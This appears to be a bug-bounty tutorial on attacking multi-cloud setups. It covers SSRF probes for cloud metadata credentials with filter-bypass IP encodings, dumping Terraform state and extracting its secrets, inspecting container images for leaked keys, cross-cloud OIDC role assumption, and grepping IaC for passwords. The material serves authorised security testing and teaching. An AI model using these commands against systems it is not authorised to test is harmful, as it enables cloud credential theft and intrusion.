

> Source: https://bugbounty.info/Attack-Surface/Cloud/Multi-Cloud/index

# Multi-Cloud Attack Patterns

Most serious targets aren't single-cloud. They run primary infra on AWS, use Firebase for the mobile app, store assets in GCP, and have a legacy chunk on Azure. That fragmentation creates seams - inconsistent access controls, secrets that work across providers, and infrastructure configs that get checked into repos alongside application code.

## Metadata Service Exploitation

The metadata service pattern is the same across providers but the headers and paths differ. Write a reusable test for all three when you have SSRF.

```python
# Quick SSRF probe for all three metadata services
targets = [
    # AWS - no special headers needed (IMDSv1)
    ("AWS", "http://169.254.169.254/latest/meta-data/iam/security-credentials/"),
    # GCP - needs Metadata-Flavor: Google
    ("GCP", "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"),
    # Azure - needs Metadata: true
    ("Azure", "http://169.254.169.254/metadata/instance?api-version=2021-02-01"),
]
 
# When testing via SSRF, try all three and also try alternate IP representations:
# 169.254.169.254 == 0xa9fea9fe == 2852039166 == 0251.0376.0251.0376
```

If the SSRF strips URLs with `169.254.169.254`, try:

- `http://169.254.169.254` (decimal)
- `http://0xa9fea9fe` (hex)
- `http://2852039166` (integer)
- `http://[::ffff:169.254.169.254]` (IPv6 mapped)
- `http://metadata.google.internal` (GCP DNS alias)
- DNS rebinding if you can set up an external DNS record

## Terraform State File Exposure

Terraform state files are goldmines. They contain the full configuration of all managed infrastructure including sensitive values that weren't marked as `sensitive` in the provider. I've found database passwords, API keys, and private keys in state files.

State is commonly stored in:

- S3 buckets (AWS) - usually named something like `company-terraform-state` or `infra-tfstate`
- GCS buckets (GCP)
- Azure Blob Storage
- Terraform Cloud (check for public workspaces)

```bash
# If you find a terraform state S3 bucket
aws s3 ls s3://BUCKET_NAME --recursive
aws s3 cp s3://BUCKET_NAME/path/to/terraform.tfstate /tmp/state.json
 
# Parse it for sensitive values
cat /tmp/state.json | python3 -c "
import json, sys
state = json.load(sys.stdin)
for resource in state.get('resources', []):
    for instance in resource.get('instances', []):
        attrs = instance.get('attributes', {})
        for k, v in attrs.items():
            if any(x in k.lower() for x in ['password', 'secret', 'key', 'token']):
                print(f'{resource[\"type\"]}.{resource[\"name\"]}.{k}: {v}')
"
```

Also look for `.tfstate` files in repos - devs frequently commit local state before configuring remote backends.

## Container Registry Exposure

Public or weakly-authenticated container registries let you pull images and inspect them for secrets, credentials, and internal tooling.

```bash
# AWS ECR - check for public repositories
aws ecr-public describe-repositories --region us-east-1
 
# Pull and inspect
docker pull public.ecr.aws/ALIAS/REPO:TAG
docker history IMAGE_ID --no-trunc
docker run --rm -it IMAGE_ID sh  # if it has a shell
# Or use dive for layer analysis:
dive IMAGE_ID
 
# GCP Artifact Registry / GCR
gcloud container images list --repository=gcr.io/PROJECT_ID
docker pull gcr.io/PROJECT_ID/IMAGE:TAG
 
# Azure Container Registry
az acr repository list --name REGISTRY_NAME
```

What I look for in images:

- Env vars baked in (`ENV AWS_SECRET_KEY=...` in Dockerfile)
- `.aws/credentials` or similar config files copied into the image
- Private keys, certificates
- Hardcoded database URLs in app config files
- Internal service names and ports that reveal network topology

## Cross-Cloud Trust Relationships

AWS roles can be configured to trust external identity providers, including Google and Azure. This creates cross-cloud attack paths:

```bash
# AWS role with Google OIDC federation
# If you have a GCP service account token, you might be able to assume an AWS role
aws sts assume-role-with-web-identity \
  --role-arn arn:aws:iam::ACCOUNT:role/ROLE \
  --role-session-name test \
  --web-identity-token GCP_ID_TOKEN
```

Also check GitHub Actions OIDC federation - if a GH Actions workflow has permission to assume an AWS or GCP role via OIDC, compromising the workflow gives you cloud access without needing static credentials.

## Infrastructure as Code Recon

When you find a public repo or a leaked archive containing IaC:

```bash
# Terraform -- look for resource definitions and data sources
grep -r "aws_secretsmanager_secret\|aws_ssm_parameter\|password\|secret_key" .
 
# CloudFormation -- check for hardcoded values and exported outputs
grep -r "NoEcho\|Password\|SecretAccessKey\|export" .
 
# Pulumi -- TypeScript/Python code, easier to grep
grep -r "secret\|password\|apikey" . --include="*.ts" --include="*.py"
 
# Ansible -- vault files, variable files
find . -name "*.yml" | xargs grep -l "password\|vault\|secret"
```

CloudFormation templates sometimes have `Outputs` that export sensitive values. These are visible to anyone with `cloudformation:DescribeStacks` in the same account.

## Attack Flow



## Related

- [AWS](../../../Attack-Surface/Cloud/AWS/) - primary target in multi-cloud environments
- [GCP](../../../Attack-Surface/Cloud/GCP/) - Firebase and service account keys
- [Azure](../../../Attack-Surface/Cloud/Azure/) - Entra ID federation
- [CD](../../../Attack-Surface/CI-CD/) - IaC and secrets live in pipelines
